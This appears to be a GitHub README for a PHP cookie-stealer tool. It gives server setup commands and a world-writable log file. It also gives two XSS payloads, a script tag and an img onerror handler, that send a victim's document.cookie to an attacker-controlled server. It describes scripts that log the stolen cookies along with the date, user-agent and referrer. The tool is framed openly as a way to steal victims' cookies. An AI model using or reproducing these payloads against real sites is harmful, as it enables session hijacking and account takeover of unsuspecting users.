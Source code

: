 # cookie-stealer
simple cookie stealer in PHP

## usage
#### step1 - start web server on your web server
```
sudo apt update && apt upgrade -y
sudo apt install apache2
sudo systemctl start apache2
```

#### step2 
clone the repository in ``` /var/www/html/ ``` directory
and go to the repository directory then give 'cookie.txt' read/write premission.
```
chmod 777 cookie.txt
```

#### step3
now if any cookie or data sent to your webserver by your link, it'll save in the cookie file.
example of a link:
```
http://192.168.1.135/p1.php?txt=your-data
```

#### Payload
here is some payload for vulnerabilities like XSS to steal the cookies of your victim:
```
<script>window.location="http://your-server-ip-or-domain/cookie-stealer/p1.php?txt="+document.cookie</script>
<img src=/ onerror=window.location="http://your-server-ip-or-domain/cookie-stealer/p1.php?txt="+document.cookie></img>
```

### p1.php
p1.php is a basic version of cookie stealer that receives and stores just the value of the txt parameter.

### p2.php
p2.php stores more data from the victim. you can store ``` date user-agent referrer ``` too.
